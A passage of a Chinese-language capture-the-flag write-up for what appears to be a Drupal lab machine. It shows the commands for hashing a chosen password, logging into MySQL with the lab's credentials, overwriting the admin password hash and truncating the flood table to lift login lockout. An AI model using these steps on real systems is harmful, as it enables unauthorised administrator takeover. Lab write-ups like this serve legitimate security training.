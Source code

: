 ```mysql
select * from node,role;
```

![image-20230321151525814](https://s3.xiabee.cn/pic/2023/03/0bcdaae6b4138e2354e2a5a33dce38cdaf3ebaccc7bb5c5f477735a0e5779df5.png)



可以看到 flag3 的 title 既然 flag3 在表里面，那访问后台肯定能直接翻出来，现在开始尝试登陆管理员后台 

结合 flag2 的提示，通过非暴力手段进入，第一个反应应该就是修改密码了，直接开干





先退出数据库，进入/var/www/目录，直接使用它的加密脚本加密我们需要的密码：

```bash
cd /var/www/
php scripts/password-hash.sh 123 > pwd.txt
cat pwd.txt
# 进入可写目录，创建pwd.txt文件，并查看内容
```

![image-20230321151631488](https://s3.xiabee.cn/pic/2023/03/26e6e82e06f7d84511ea05515a656610c1ca998184cb2422419950f19d1dbd64.png)

得到"123"的哈希

进入数据库，修改admin密码：

```mysql
mysql -udbuser -pR0ck3t
# 进入数据库
use drupaldb;
# 使用 drupaldb 数据库
update users set pass = '$S$DRX6M.nvrKxrvQvj4kef1/pbQR0FzL1paS4sStmNxlFhADzUxvRe' where name = 'admin';
# 将密码改为123
truncate flood;
# 如果错误密码太多被锁定的话，这条语句可以解除锁定
```

![image-20230321151703018](https://s3.xiabee.cn/pic/2023/03/a9553d28504d7fe47214716f5bda7f5199b579cfcac1b9195f623745e5a54901.png)



此时数据库管理员密码已改为"123" 

用户名：admin 密码：123

登陆后台，寻找 content，寻找 flag3

![image-20230321151742109](https://s3.xiabee.cn/pic/2023/03/989eff04459d13cebd01f5f5c26540223798e04fc424add4a7a79a5f25715722.png)



此时看到 flag3:

![image-20230321151804947](https://s3.xiabee.cn/pic/2023/03/cbe6fdc80ee998662d4b659ec9eef5a3d1d566998158e2b1f8d91bb55c8a7688.png)
